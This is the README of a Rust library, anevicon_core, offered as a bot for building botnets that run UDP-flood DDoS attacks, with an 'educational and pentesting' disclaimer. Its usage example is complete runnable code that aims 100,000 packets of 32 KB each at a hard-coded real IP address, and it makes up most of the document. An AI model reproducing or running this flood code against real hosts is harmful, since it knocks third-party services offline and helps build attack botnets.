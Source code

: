# Introduction
This crate can be used as a bot to build a botnet for simulating [UDP-based DDoS attacks](https://en.wikipedia.org/wiki/UDP_flood_attack) (but only for educational and pentesting purposes, see [the GPLv3 license](https://github.com/Gymmasssorla/anevicon/blob/master/LICENSE), under which the library is distributed).

## Usage

Enter this text to your `Cargo.toml` file:
```toml
[dependencies]
anevicon_core = "*"
```

And this one to your `src/main.rs` source:
```rust
use std::net::UdpSocket;
use std::num::NonZeroUsize;

use anevicon_core::summary::TestSummary;
use anevicon_core::testing::{execute, HandleErrorResult};

fn main() {
    // Setup the socket connected to the example.com domain
    let socket = UdpSocket::bind("0.0.0.0:0").expect("Cannot setup the socket");
    socket
        .connect("93.184.216.34:80")
        .expect("Cannot connect the socket to example.com");

    let mut summary = TestSummary::default();

    // Finally, execute a test that will send 100000 packets
    // each containing 32768 bytes.
    execute(
        &socket,
        &vec![0; 32768],
        NonZeroUsize::new(100000).unwrap(),
        &mut summary,
        |error| panic!("{}", error),
    );

    println!(
        "The total minutes passed: {}",
        summary.time_passed().as_secs() / 60
    );
}
```

For more details see [the documentation](https://docs.rs/anevicon_core).
